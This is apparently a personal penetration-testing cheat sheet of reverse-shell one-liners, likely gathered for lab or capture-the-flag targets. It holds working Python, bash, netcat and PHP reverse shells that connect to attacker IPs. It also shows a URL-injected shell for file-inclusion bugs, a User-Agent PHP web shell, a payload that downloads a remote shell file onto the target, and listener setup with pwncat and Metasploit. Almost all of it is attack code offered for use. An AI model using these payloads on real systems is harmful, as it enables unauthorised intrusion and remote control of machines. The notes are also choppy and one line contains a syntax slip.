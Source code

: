 
# get a python reverse shell to execute arbitrary commands via url (RFI/LFI vuln)
https://TARGET/xl0827_dev_/?x=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.17",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno()2);p=subprocess.call(["/bin/sh","-i"]);'

# python reverse shell via terminal
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.17",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
                                                                                                     ^ATTACKER^,^NC PORT^                
# upgrade a nc reverse shell to a meterpreter shell with script
1. setup a multi handler listener on metasploit on port 9999 with payload linux/x86/shell_reverse_tcp
2. run the command on nc shell terminal below
3. bash -i >& /dev/tcp/10.13.1.99/1337 0>&1
4. Now we have a reverse meterpreter shell and a nc shell o

# one liner bash reverse shell with a pwn cat listner(netcat on steriods) for shells
rm /tmp/rv; mkfifo /tmp/rv; nc 10.9.0.17 1337 0</tmp/rv | /bin/bash >/tmp/rv 2>&1
cd /home/kali/Shared/Opt-Tools/pwncat && source pwncat-env/bin/activate
pwncat -lp 4444 

# one liner sh reverse shell with a pwn cat listner(netcat on steriods) for stable shells
rm /tmp/rv; mkfifo /tmp/rv; nc 10.9.0.17 1337 0</tmp/rv | /bin/sh >/tmp/rv 2>&1
cd /home/kali/Shared/Opt-Tools/pwncat && source pwncat-env/bin/activate
python -m pwncat -lp 4444 

# php payload to obtain a rev-shell via url injection, on burp, switch user agent to <?php system($_GET['cmd']);?>
php -r '$sock=fsockopen("10.9.0.17",1337);exec("/bin/sh -i <&3 >&3 2>&3");'


# method 2 php rev shell via burp request, fire up python to serve pentest monkeys php shell, then navigate to url
<?php file_put_contents('shell.php', file_get_contents('http://10.13.1.99/miniShell.php'))?>

## SUID and SUDO FINDINGS ##################################
